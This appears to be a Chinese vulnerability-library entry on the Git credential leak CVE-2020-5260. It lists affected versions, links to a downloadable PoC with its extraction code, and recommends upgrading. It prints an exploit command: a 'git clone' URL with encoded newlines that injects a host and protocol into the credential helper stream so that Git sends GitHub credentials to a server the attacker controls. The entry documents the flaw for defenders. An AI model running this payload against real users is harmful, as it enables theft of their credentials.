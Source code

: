 ```yaml
---
title: 'Git凭证泄露漏洞（CVE-2020-5260）.assets'
date: Sun, 27 Sep 2020 12:45:42 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 描述

Git使用凭证助手(credential helper)来帮助用户存储和检索凭证。但是当一个URL中包含经过编码的换行符时，可能将非预期的值注入到credential helper的协议流中。这将使恶意URL欺骗Git客户端去向攻击者发送主机凭据。当使用受影响版本 Git对恶意 URL 执行 git clone 命令时会触发该漏洞。

#### 影响版本

Git2.17.x <= 2.17.3Git2.18.x <= 2.18.2Git2.19.x <= 2.19.3Git2.20.x <= 2.20.2Git2.21.x <= 2.21.1Git2.22.x <= 2.22.2Git2.23.x <= 2.23.1Git2.24.x <= 2.24.1Git2.25.x <= 2.25.2Git2.26.x <= 2.26.0 poc 链接：https://pan.baidu.com/s/1upYlyZFZMDuNZ5YnMnrmaQ 提取码：e9iz 启动poc：go run poc.go git在执行类似"git clone https://example.com" 这样的命令时,会请求使用协议"https"存储主机"example.com"的凭据，并在远程端请求身份验证时将返回的凭据附加到发出的请求中

 ```
git clone 'http://localhost:8088/%0ahost=github.com%0aprotocol=https' 
 ```

![](./Git凭证泄露漏洞（CVE-2020-5260）.assets/20200716173859320.png) 

获取到git的凭证

#### 修复建议

升级到最新版